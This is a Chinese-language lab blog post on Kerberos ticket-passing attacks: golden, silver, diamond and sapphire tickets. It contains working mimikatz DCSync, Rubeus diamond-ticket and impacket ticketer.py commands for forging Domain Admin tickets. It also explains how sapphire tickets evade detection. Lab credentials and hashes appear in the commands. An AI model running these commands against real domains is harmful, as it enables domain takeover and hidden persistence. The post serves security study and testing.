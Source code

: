 票据传递攻击，和PTH有些类似，不过这里传递的不是hash，而是票据

## 黄金票据&白银票据

这两个票据及其攻击手法分别在先前的两个阶段攻击中介绍过了，这里就不再做过多的解释，主要是探讨一下这两个票据有什么区别，能拿来进行什么样的操作

### 金票与银票的区别

**使用的hash不同**

金票和银票的制作虽然相差无几，但是用到的hash是不一样的，金票使用的是krbtgt的ntlm hash而银票使用的是目标服务的hash

**访问权限的不同**

由于金票的拿到的hash权限较高，制作的票据自然能够访问所有的服务，相当于是拥有域控权限了

由于制作银票用到的hash是目标服务的hash,因此只能访问目标服务，但是通过ldap服务我们能够获取到krbtgt的hash从而制作金票

**认证流程不同**

- Golden Ticket 的利用过程需要访问域控(KDC)
- Silver Ticket 可以直接跳过 KDC 直接访问对应的服务器

**二者能拿来做什么**

本来我是想用银票来横向的(cifs+host),后面被师傅反驳了，说我白费功夫，能拿到机器的hash，说明已经拿下这台机器了(在自己搭环境进行测试时没有注意到这点)，按照师傅的说法银票和金票一般都拿来做维权，例如银票拿个cifs，之后psexec就行了，金票就不用多说了，都能登录

## 钻石票据(Diamond Ticket)

钻石票据会通过域内用户请求合法的TGT后再使用krbtgt的AES256密钥对PAC进行解密、修改、重新加密，生成与合法 PAC 高度相似的 PAC，并且还可以生成合法请求。

制作钻石票据的前提条件

```shell
1、krbtgt账户的AES256密钥
2、域用户&密码
```

采用mimikatz来dump krbtgt用户的AES256密钥

```shell
privilege::debug
lsadump::dcsync /domain:hack.com /user:krbtgt
```

![diamond1](https://raw.githubusercontent.com/uu2fu3o/blog-picture/main/ass/diamond1.png)

```
#key
aes256_hmac       (4096) : a839afa3136eda434f8a76e182f7cb0ef2713fdef1035ad7c7c083bff4863d35
```

使用Rubeus制作钻石票据

首先由域内普通用户请求正常的TGT，然后解密TGT，修改PAC权限，重新计算签名，并重新加密生成新ticket

```
Rubeus.exe diamond /domain:DOMAIN /user:USER /password:PASSWORD /dc:DOMAIN_CONTROLLER /enctype:AES256 /krbkey:HASH /ticketuser:USERNAME /groups:GROUPS_ID(eg:512,518,519,520...)
```

```
Rubeus.exe diamond /domain:hack.com /user:Administrator /password:UU2FU3O@ADMIN /dc:DC.hack.com /enctype:AES256 /krbkey:a839afa3136eda434f8a76e182f7cb0ef2713fdef1035ad7c7c083bff4863d35 /ticketuser:hacker/groups:512
```

![rubeus](https://raw.githubusercontent.com/uu2fu3o/blog-picture/main/ass/rubeus.png)

这样会生成base64的ticket,我们可以直接导入，或者是把ticket导出来使用，只需要加一个outfile参数，例如`/outfile:ticket.kirbi`

```
Rubeus.exe asktgs /ticket:ticket.kirbi /service:cifs/DC.hack.com /ptt
```

在低权限主机上导入票据，即可访问DC的文件服务

![nop](https://raw.githubusercontent.com/uu2fu3o/blog-picture/main/ass/nop.png)

![wino](https://raw.githubusercontent.com/uu2fu3o/blog-picture/main/ass/wino.png)

或者采用别的方法申请钻石票据

```shell
# Get user RID
powershell Get-DomainUser -Identity <username> -Properties objectsid

.\Rubeus.exe diamond /tgtdeleg /ticketuser:<username> /ticketuserid:<RID of username> /groups:512

# /tgtdeleg uses the Kerberos GSS-API to obtain a useable TGT for the user without needing to know their password, NTLM/AES hash, or elevation on the host.
# /ticketuser is the username of the principal to impersonate.
# /ticketuserid is the domain RID of that principal.
# /groups are the desired group RIDs (512 being Domain Admins).
# /krbkey is the krbtgt AES256 hash. 
```

**相较于黄金票据**

钻石票据更加隐蔽，因为它有真实的AS_REQ的阶段，有合法的TGT.

TGT 由 DC 发布，这意味着它将拥有域的 Kerberos 策略中的所有正确详细信息。尽管这些可以在金票中准确伪造，但它更复杂且容易出错。

## 蓝宝石票据(Sapphire Ticket)

钻石票据通过解密来修改PAC中的特权组信息，使用户拥有对域控的访问权限，这样虽然能够绕过常规对TGS是否有AS_REQ的检测，但是伪造的用户实际上并不在这个特权组中，通过对特权组的检测，仍然能够检查到是否进行了钻石票据的攻击。

蓝宝石票据，相较于钻石票据的区别在于对PAC的修改方式，避免了被检测的问题，利用kerberos的扩展S4U2self + u2u来取得高权限用户的PAC，替换原始的PAC，因为特权群组里确实有这个高权限用户，所以就认定该PAC是合法的，从而绕过检测。

### U2U

Kerberos RFC 中将用户到用户身份验证描述为一种方法，该方法“允许客户端请求使用从 TGT 颁发给将验证身份验证的一方的会话密钥对 KDC 颁发的票证进行加密。

KRB_TGS_REQ将具有以下功能：

附加票证：将包含从中获取密钥的 TGT。

ENC-TKT-IN-SKEY：选项指示终端服务器的票证将在提供的附加 TGT 的会话密钥中加密。

服务名称 （sname） 可以引用用户，而不一定是具有 SPN 的服务。

U2U验证过程中的两个用户一个充当服务器，另一个充当客户端，允许用户去引用用户

### U2U+S4U2SELF

利用域用户发起TGT请求，收到TGT请求后以administrator身份通过S4U2self发起自身的ST请求，这时会请求失败，因为用户账户默认情况下是没有SPN的，但是使用U2U的情况，我们能够委托administrator用户去请求目标用户(域用户)的权限。

用户A没有SPN，但是在U2U扩展下，允许使用S4U2SELF，A充当服务器，KDN将返回目标用户B(充当客户端的用户)票据，而票据内含有PAC

### 利用

```shell
python3.8 ticketer.py -request -impersonate 'administrator' -domain 'hack.com' -user 'uu2fu3o' -password '!qaz@WSX' -aesKey 'a839afa3136eda434f8a76e182f7cb0ef2713fdef1035ad7c7c083bff4863d35' -domain-sid 'S-1-5-21-754643614-3937478331-2139222398' 'asd' -dc-ip 192.168.30.10 -nthash '8d0e4e5d28d91ac99f7b77368455d9b7'
# impersonate参数指定要伪造的目标域管用户
#domain参数指定域名
#user参数指定任意域用户
#password参数指定任意域用户的密码
#'asd' 任意用户名，可不存在
```

![蓝宝石](https://raw.githubusercontent.com/uu2fu3o/blog-picture/main/ass/%E8%93%9D%E5%AE%9D%E7%9F%B3.png)

在低权限主机上导入票据

```
kerberos::ptc asd.ccache
```

![win2](https://raw.githubusercontent.com/uu2fu3o/blog-picture/main/ass/win2.png)
